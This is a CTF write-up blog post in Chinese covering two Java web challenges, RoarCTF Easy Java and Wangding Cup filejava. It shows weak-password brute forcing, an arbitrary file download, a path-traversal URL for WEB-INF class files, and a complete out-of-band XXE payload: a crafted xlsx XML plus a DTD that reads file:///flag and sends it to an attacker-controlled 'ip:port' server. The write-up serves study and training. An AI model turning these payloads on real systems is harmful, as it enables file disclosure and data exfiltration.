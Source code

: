```yaml
---
title: buu一道简单java web
date: 2024-10-09 19:14:26
permalink: /pages/24d392/
sidebar: false
author: 
  name: the0n3
  link: https://the0n3.top
---
```

## [RoarCTF 2019]Easy Java

buu平台一道简单java web[[RoarCTF 2019]Easy Java](https://buuoj.cn/challenges#[RoarCTF%202019]Easy%20Java)

![1](https://the0n3.top/medias/buujava/1.png)

打开题目，一个登录页面，可以bp爆破出弱密码`admin/admin888`

![2](https://the0n3.top/medias/buujava/2.png)

登录页没什么内容

![3](https://the0n3.top/medias/buujava/3.png)

尝试首页的`help`，路由像是存在任意文件下载漏洞，没有下载`help.docx`文件，换成post请求才能下载文件，这是什么题目，这也是play的一环吗

post发送请求`filename=help.docx`，下载`help.docx`文件，没用

关于`WEB-INF`目录

::: tip
 WEB-INF主要包含一下文件或目录： 
/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。 
/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中 
/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件 
/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。 
/WEB-INF/database.properties：数据库配置文件
:::

下载`/WEB-INF/web.xml`文件，看看服务配置项，里面记录了FLAG的controller

![5](https://the0n3.top/medias/buujava/5.png)

所以可以找`/WEB-INF/classes/com/wm/ctf/FlagController.class`，下载class文件，用[jd-gui下载](https://java-decompiler.github.io/)反编译

![6](https://the0n3.top/medias/buujava/6.png)

flag base64编码了，解码拿到flag


## [网鼎杯 2020 青龙组]filejava

上传文件后，可以下载，下载功能存在目录穿越漏洞

![7](https://the0n3.top/medias/buujava/7.png)

![8](https://the0n3.top/medias/buujava/8.png)

穿越下载java web的配置文件web.xml

![9](https://the0n3.top/medias/buujava/9.png)

下载实现主要功能的class文件`DownloadServlet.class`,`ListFileServlet.class`,`UploadServlet.class`

在java web中，这些文件在`/WEB-INF/classes`目录下的自定义package下，也就是这里的`/cn/abc/servlet`下

`url/DownloadServlet?filename=../../../../WEB-INF/classes/cn/abc/servlet/DownloadServlet.class`下载class文件

`jd-gui`反编译class文件，审计源码

审计`DownloadServlet.class`，可以看到存在`flag`时会禁止下载

![10](https://the0n3.top/medias/buujava/10.png)

审计`ListFileServlet.class`，没有什么可以利用的

![11](https://the0n3.top/medias/buujava/11.png)

审计`UploadServlet.class`，如果上传的文件名是`excel-`开头，`.xlsx`结尾，那么会尝试读取文件的xml文件。doc， xlsx等文件实质是zip压缩包，里面存在一个xml文件，可以创建一个正常的excel文件，改扩展名为zip，把里面内容替换为恶意xml内容，再压缩，改回xlsx扩展名，上传。打一个xxe漏洞

![12](https://the0n3.top/medias/buujava/12.png)

```java
if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            // 读取xml文件，引用vps的dtd文件，利用xxe漏洞读取flag
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }
```

这是创建的excel文件修改为zip文件里的xml文件内容，写好后再全部压缩到一个包里，扩展名改回`xlsx`，文件名`excel-1.xlsx`

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE data SYSTEM "http://ip:port/1.dtd">
<data>&send;</data>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types"><Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml"/><Default Extension="xml" ContentType="application/xml"/><Override PartName="/xl/workbook.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.sheet.main+xml"/><Override PartName="/xl/worksheets/sheet1.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/theme/theme1.xml" ContentType="application/vnd.openxmlformats-officedocument.theme+xml"/><Override PartName="/xl/styles.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.styles+xml"/><Override PartName="/docProps/core.xml" ContentType="application/vnd.openxmlformats-package.core-properties+xml"/><Override PartName="/docProps/app.xml" ContentType="application/vnd.openxmlformats-officedocument.extended-properties+xml"/></Types>
```


vps进入一个空目录，新建1.dtd文件，内容为

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://ip:port/?%file;'>">
%all;
```

开启一个web服务，端口要和上面xml，dtd的端口一致

```bash
python3 -m http.server 4444
```

上传文件，可以在日志看到目标主机带着flag的访问

![14](https://the0n3.top/medias/buujava/14.png)

![13](https://the0n3.top/medias/buujava/13.png)



参考：

- [BUUCTF：[RoarCTF 2019]Easy Java](https://blog.csdn.net/mochu7777777/article/details/109572179)
- [常见java反编译工具 _](https://hksanduo.github.io/2021/06/22/2021-06-22-java-decompiler-tools/#)
- [网鼎杯2020青龙组 web writeup ](https://www.cnblogs.com/W4nder/p/12866365.html)